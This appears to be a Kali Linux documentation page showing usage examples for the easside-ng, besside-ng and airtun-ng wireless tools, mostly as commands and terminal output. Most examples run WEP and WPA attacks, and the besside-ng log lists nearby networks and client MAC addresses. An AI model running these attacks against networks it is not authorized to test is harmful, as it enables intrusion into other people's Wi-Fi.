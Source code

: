 ## easside-ng Usage Example

First, run buddy-ng, then launch the Easside-ng attack, specifying as many of the options as you can.

```
root@kali:~# buddy-ng
Waiting for connexion
```

```
root@kali:~# easside-ng -v de:ad:be:ef:ca:fe -m 3c:46:d8:4e:ef:aa -s 127.0.0.1 -f wlan0mon -c 6
Setting tap MTU
Sorting out wifi MAC
```

## besside-ng

Attack WPA only (`-W`), display verbose output (`-v`) and use monitor mode interface `wlan0mon`.

```
root@kali:~# besside-ng -W -v wlan0mon
[18:39:34] mac 3c:46:d8:4e:ef:aa
[18:39:34] Let's ride
[18:39:34] Appending to wpa.cap
[18:39:34] Appending to wep.cap
[18:39:34] Logging to besside.log
[18:39:35] Found AP 44:3a:cb:38:51:42 [watwutwot] chan 1 crypto WPA dbm -49
[18:39:35] Found AP 4c:8b:30:83:ed:91 [TELUS3079-2.4G] chan 1 crypto WPA dbm -71
[18:39:35] Found AP 1c:87:2c:d3:34:18 [Kuroki] chan 3 crypto WPA dbm -89
[18:39:37] Found AP 4c:8b:30:24:71:75 [SAMUEL9] chan 8 crypto WPA dbm -73
[18:39:37] Found AP 0c:51:01:e6:01:c4 [fbi-van-24] chan 11 crypto WPA dbm -46
[18:39:37] Found AP 70:f1:96:8e:5c:02 [TELUS0455-2.4G] chan 11 crypto WPA dbm -78
[18:39:38] Found client for network [Kuroki] 90:06:28:cb:0f:f3
[18:39:41] Found AP f0:f2:49:3c:ec:a8 [fbi-van-24] chan 1 crypto WPA dbm -49
[18:39:42] Found AP bc:4d:fb:2c:6d:88 [SHAW-2C6D80] chan 6 crypto WPA dbm -77
[18:39:42] Found client for network [SHAW-2C6D80] 64:5a:04:98:e1:62
[18:39:43] Found AP 10:78:5b:e9:a4:e2 [TELUS2151] chan 11 crypto WPA dbm -49
[18:39:43] Found client for network [fbi-van-24] 60:6b:bd:5a:b6:6c
```

## airtun-ng Usage Examples

### wIDS

Specify the BSSID of the access point you wish to monitor (`-a DE:AD:BE:EF:CA:FE`) and its WEP key (`-w 1234567890`).

```
root@kali:~# airtun-ng -a DE:AD:BE:EF:CA:FE -w 1234567890 wlan0mon
created tap interface at0
WEP encryption specified. Sending and receiving frames through wlan0mon.
FromDS bit set in all frames.
```
